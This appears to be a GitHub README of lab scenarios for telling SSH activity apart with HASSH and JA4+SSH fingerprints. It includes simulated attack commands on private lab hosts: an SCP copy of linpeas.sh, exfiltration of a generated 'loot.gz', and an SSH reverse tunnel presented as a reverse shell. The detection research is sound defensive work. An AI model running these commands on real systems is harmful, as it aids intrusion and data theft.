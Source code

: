 ## Scenario 01 - [HASSH] SSH Client Software Connection to Bastion
<details>
  <summary>Expand to see details</summary>
Summary: Examine HASSH results when different SSH client software is used to connect to bastion

Connect from User PC to Bastion with username bob

  - User PC - 192.168.91.132 (Windows 10)
  - Bastion - 192.168.91.129 (Debian12)

PCAP Filter:
```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario01.pcap
```


<details>
  <summary>PuTTY Client Connection</summary>
  
  Extract HASSH for `PuTTY` with tshark

  ```bash
  $ tshark -nr scenario01_putty_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hassh
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	1dd4d89cd6b7a1f7b06acf808260c130
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	
  ```  
  
</details>


<details>
  <summary>MS Terminal SSH Client</summary>
  
  Extract HASSH for `MS Terminal ssh` with tshark
  ```bash
  $ tshark -nr scenario01_ms_terminal_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hassh
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	ec7378c1a92f5a8dde7e8b7a1ddf33d1
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	
  ```
</details>

### Conclusion

Using different client software on UserPC produces different HASSH values. There is a difference between PuTTY and MS Terminal ssh.

| HASSH Value    | SSH Client Software       |
|----------------|----------------|
| 1dd4d89cd6b7a1f7b06acf808260c130  | PuTTY  |
| ec7378c1a92f5a8dde7e8b7a1ddf33d1  | MS Terminal ssh  |

TODO: extract client algorithms each software used - maybe in Appendix for space saving?

</details>

## Scenario 02 - [HASSH] Server Response to Different Client Connections
<details>
  <summary>Expand to see details</summary>
Summary: Examine HASSHserver results when different SSH client software is used to connect to bastion. PCAPs are copied from Scenario01.

Extract HASSHserver with tshark
```bash
$ tshark -nr scenario02_putty_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hasshserver
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	a65c3b91f743d3f246e72172e77288f1
```

Extract HASSHserver with tshark
```bash
$ tshark -nr scenario02_ms_terminal_short.pcap -Y 'ssh.message_code == 20' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hasshserver
7	192.168.91.132	192.168.91.129	Client: Key Exchange Init	
8	192.168.91.129	192.168.91.132	Server: Key Exchange Init	a65c3b91f743d3f246e72172e77288f1
```
TODO: extract server algorithms each software used - maybe in Appendix for space saving?

### Conclusion

hasshServer remains constant regardless of client connection

| HASSHserver Value    | SSH Client Software       |
|----------------|----------------|
|  a65c3b91f743d3f246e72172e77288f1 | PuTTY  |
|  a65c3b91f743d3f246e72172e77288f1 | MS Terminal ssh  |

</details>

## Scenario 03 - [HASSH] Connect Bastion to Defended Server 
<details>
  <summary>Expand to see details</summary>
Summary: Use either PuTTY or MS Terminal ssh to establish connection from UserPC to Bastion. Establish connection from Bastion to Defended Server. Examine HASSH and HASSHserver for Bastion to Defended Server.

  - User PC - 192.168.91.132 (Windows 10)
  - Bastion - 192.168.91.129 (Debian12)
  - Defended Server - 192.168.91.133 (Debain12)

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario03.pcap
```
</details>

Extract HASSH and HASSHserver with tshark

```bash
$ tshark -nr scenario03.pcap -Y 'ssh.message_code == 20 and ip.addr == 192.168.91.133' -T fields -e frame.number -e ip.src -e ip.dst -e _ws.col.Info -e ssh.kex.hassh -e ssh.kex.hasshserver
48	192.168.91.129	192.168.91.133	Client: Key Exchange Init	aae6b9604f6f3356543709a376d7f657	
49	192.168.91.133	192.168.91.129	Server: Key Exchange Init	a65c3b91f743d3f246e72172e77288f1
```

### Conclusion:

Client HASSH uses SSH software on Bastion installed by Debian12. This `aae6b9604f6f3356543709a376d7f657` is different from PuTTY HASSH `1dd4d89cd6b7a1f7b06acf808260c130` and MS Terminal ssh HASSH `ec7378c1a92f5a8dde7e8b7a1ddf33d1`

| HASSH Value    | SSH Client Software       |
|----------------|----------------|
| 1dd4d89cd6b7a1f7b06acf808260c130  | PuTTY  |
| ec7378c1a92f5a8dde7e8b7a1ddf33d1  | MS Terminal ssh  |
| aae6b9604f6f3356543709a376d7f657  | OpenSSH Client from Bastion host |

Server HASSHserver `a65c3b91f743d3f246e72172e77288f1` remains constant from Scenario02.

Note: sshd_config is the same on both Bastion and Defended Server, resulting in same HASSHserver

| HASSHserver Value    | SSH Client Software       |
|----------------|----------------|
|  a65c3b91f743d3f246e72172e77288f1 | Scenario02 Bastion HASSHserver  |
|  a65c3b91f743d3f246e72172e77288f1 | Scenario03 Defended Server HASSHserver  |

</details>

## Scenario 04 - [JA4+SSH] Normal Behavior - Forward Interactive Shell to Bastion
<details>
  <summary>Expand to see details</summary>
Summary: Connect from UserPC to Bastion using either UserPC SSH client software. Perform typical system administator commands such as checking system information.

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)

System commands executed on Bastion:
```bash
pwd
whoami
cat /etc/os-release
uptime
uname -a
who
exit
```

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario04.pcap
```
</details>

Modify JA4.py script to calculate JA4+SSH values based on 20 SSH Packets. JA4.py by default will monitor 200 packets before calculating fingerprint. Modification is required because of the limited number of commands entered on the host.

Modify line 406 in script:
https://github.com/FoxIO-LLC/ja4/blob/main/python/ja4.py#L406

Conclusion:

JA4+SSH prints JA4SSH.x values indicating expected forward interactive shell. Each keystroke is encrypted on the client and sent to the server. A TCP ACK is sent acknowledging the encrypted packet from the client. Thus, the JA4+SSH fingerprint - c36s36_xxxx_xxxx

```json
$ ja4 scenario04_nopatch.pcap -J
{
    "stream": 0,
    "src": "192.168.91.132",
    "dst": "192.168.91.129",
    "srcport": "49765",
    "dstport": "22",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "8_64",
    "JA4L-C": "1225_128",
    "ssh_extras": {
        "hassh": "ec7378c1a92f5a8dde7e8b7a1ddf33d1",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_for_Windows_8.1",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c33s44_c9s11_c4s3",
    "JA4SSH.2": "c36s36_c9s11_c10s0",
    "JA4SSH.3": "c36s36_c9s11_c10s0",
    "JA4SSH.4": "c36s36_c10s10_c10s0",
    "JA4SSH.5": "c36s36_c8s12_c10s0",
    "JA4SSH.6": "c36s36_c8s12_c10s0",
    "JA4SSH.7": "c36s36_c7s13_c8s0",
    "JA4SSH.8": "c36s36_c7s13_c10s0",
    "JA4SSH.9": "c36s36_c0s0_c0s1"
}
```

</details>

## Scenario 05 - [JA4+SSH] Unauthorized File Copy to Bastion - linpeas.sh
<details>
  <summary>Expand to see details</summary>

Summary: Simulate an unauthorized file copy using SCP from UserPC to Bastion. File copied in example is linpeas.sh without any obfuscation or armoring.

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)

File details for `linpeas.sh` on UserPC
```bash
PS C:\Users\Bob> ls -l linpeas.sh


    Directory: C:\Users\Bob


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/15/2024  12:05 PM         824745 linpeas.sh
```

Execute SCP command to simulate unauthorized file copy to Bastion

```bash
$ scp linpeas.sh bob@bastion:~/
```

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario05.pcap
```
</details>



Conclusion:

The file chosen is 824745 bytes. The MTU for this network is 1500 bytes. As the Secure Copy (SCP) process encrypts the file and sends over SSH, the JA4+SSH fingerprint value detects the SSH payload as 1460 bytes, allowing 20 bytes for the IP and TCP header values. Previously, the SSH payload was padded to 36 bytes based on the encryption algorithms used in the connection.

```json
$ ja4 scenario05.pcap -J
{
    "stream": 0,
    "src": "192.168.91.132",
    "dst": "192.168.91.129",
    "srcport": "49826",
    "dstport": "22",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "1327_128",
    "ssh_extras": {
        "hassh": "ec7378c1a92f5a8dde7e8b7a1ddf33d1",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_for_Windows_8.1",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c1460s36_c185s15_c4s131",
    "JA4SSH.2": "c1460s36_c0s0_c0s1"
}
```

| JA4+SSH Value    | Simulated Activity       |
|----------------|----------------|
|  c36s36_c10s10_c10s0 | Forward Interactive Shell   |
|  c1460s36_c185s15_c4s131 | Unauthorized SCP to Bastion  |

</details>

## Scenario 06 - [JA4+SSH] Data Exfil from Bastion - loot.gz
<details>
  <summary>Expand to see details</summary>

Summary: Simulate data exfiltration from Bastion. Secure Copy (SCP) a file from Bastion to UserPC. A generated file on Bastion host is SCP to UserPC.

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)

<details>
<summary>Generate `loot.gz` file for data exfiltration simulation on Bastion</summary>

```bash
$ dd if=/dev/urandom of=loot bs=1M count=1
1+0 records in
1+0 records out
1048576 bytes (1.0 MB, 1.0 MiB) copied, 0.00341959 s, 307 MB/s
$ gzip loot
$ ls -l loot.gz
-rw-r--r-- 1 bob bob 10487383 Oct 19 16:23 loot.gz
```
</details>


Execute SCP command to simulate unauthorized file copy to Bastion

```bash
$ scp bob@bastion:~/loot.gz .
```

<details>
<summary>PCAP Filter</summary>

```bash
tcpdump -ni ens33 'tcp and port 22' -w scenario06.pcap
```
</details>

Conclusion:

Similar to Scenario05, the server (Bastion) is the one sending data via SSH with very few client interactions. The JA4+SSH fingerprint value accurately represents this scenario.

```json
$ ja4 scenario06.pcap -J
{
    "stream": 0,
    "src": "192.168.91.132",
    "dst": "192.168.91.129",
    "srcport": "49897",
    "dstport": "22",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "1391_128",
    "ssh_extras": {
        "hassh": "ec7378c1a92f5a8dde7e8b7a1ddf33d1",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_for_Windows_8.1",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c60s1460_c11s189_c13s3",
    "JA4SSH.2": "c60s1460_c0s200_c10s0",
    "JA4SSH.3": "c36s1460_c3s197_c10s0"
}
```

| JA4+SSH Value    | Simulated Activity       |
|----------------|----------------|
|  c36s36_c10s10_c10s0 | Forward Interactive Shell   |
|  c1460s36_c185s15_c4s131 | Unauthorized SCP to Bastion  |
|  c60s1460_c0s200_c10s0  | Data Exfiltration from Bastion      |

</details>

## Scenario 07 - [JA4+SSH] Reverse Shell
<details>
  <summary>Expand to see details</summary>

Summary: Simulate reverse shell on Bastion. 

Systems used:

  - User PC - 192.168.91.132 (Windows 10 using MS Terminal ssh)
  - Bastion - 192.168.91.129 (Debian12)
  - Defended - 192.168.91.133 (Debian12)

<details>
<summary>Setup SSH Reverse Shell</summary>

```bash
$ ssh -N -R 2222:localhost:22 root@192.168.91.129
```
On Bastion observe before and after netstat output
Before:

```bash
bob@bastion:~$ sudo netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      5268/sshd: /usr/sbi 
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      988/cupsd           
tcp6       0      0 :::22                   :::*                    LISTEN      5268/sshd: /usr/sbi 
tcp6       0      0 ::1:631                 :::*                    LISTEN      988/cupsd           
```

After:

```bash
bob@bastion:~$ sudo netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      5268/sshd: /usr/sbi 
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      988/cupsd           
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      5996/sshd: root     <--- Reverse Shell
tcp        0      0 192.168.91.129:22       192.168.91.133:59798    ESTABLISHED 5996/sshd: root     
tcp6       0      0 :::22                   :::*                    LISTEN      5268/sshd: /usr/sbi 
tcp6       0      0 :::2222                 :::*                    LISTEN      5996/sshd: root     
tcp6       0      0 ::1:631                 :::*                    LISTEN      988/cupsd               
```
</details>


Connect from UserPC to Bastion on port 2222

```bash
$ ssh -p 2222 bastion
```

<details>
<summary>PCAP Filter - updates!</summary>

```bash
tcpdump -ni ens33 'tcp and (port 22 and port 2222)' -w scenario07.pcap
```
</details>

Conclusion:

Similar to previous scenarios, chacha20-poly1305 is the chosen algorithm. Each keystroke is 36 bytes. However, since this is a reverse shell, we have SSH over SSH. Each keystroke on UserPC is echoed to a psuedo tty (shell) on the defended server. The PCAP will show each SSH Payload to be 76 bytes, because this is 'double' encrypted + HMAC. The JA4+SSH fingerprint value accurately represents this scenario.

```json
$ ja4 scenario07.pcap -J
{
    "stream": 0,
    "src": "192.168.91.133",
    "dst": "192.168.91.129",
    "srcport": "59798",
    "dstport": "22",
    "client_ttl": "64",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "251_64",
    "ssh_extras": {
        "hassh": "aae6b9604f6f3356543709a376d7f657",
        "hassh_server": "a65c3b91f743d3f246e72172e77288f1",
        "ssh_protocol_client": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "ssh_protocol_server": "SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u3",
        "encryption_algorithm": "chacha20-poly1305@openssh.com"
    },
    "JA4SSH.1": "c44s40_c10s10_c9s5",
    "JA4SSH.2": "c84s52_c11s9_c6s7",
    "JA4SSH.3": "c76s76_c10s10_c0s10",
    "JA4SSH.4": "c76s76_c10s10_c0s10",
    "JA4SSH.5": "c76s76_c10s10_c0s10",
    "JA4SSH.6": "c76s76_c10s10_c0s10",
    "JA4SSH.7": "c76s76_c10s10_c0s10"
}
{
    "stream": 1,
    "src": "192.168.91.132",
    "dst": "192.168.91.129",
    "srcport": "51213",
    "dstport": "2222",
    "client_ttl": "128",
    "server_ttl": "64",
    "JA4L-S": "9_64",
    "JA4L-C": "1412_128"
}
```

| JA4+SSH Value    | Simulated Activity       |
|----------------|----------------|
|  c36s36_c10s10_c10s0 | Forward Interactive Shell   |
|  c1460s36_c185s15_c4s131 | Unauthorized SCP to Bastion  |
|  c60s1460_c0s200_c10s0  | Data Exfiltration from Bastion      |
|  c76s76_c10s10_c0s10    | Reverse Shell |

</details>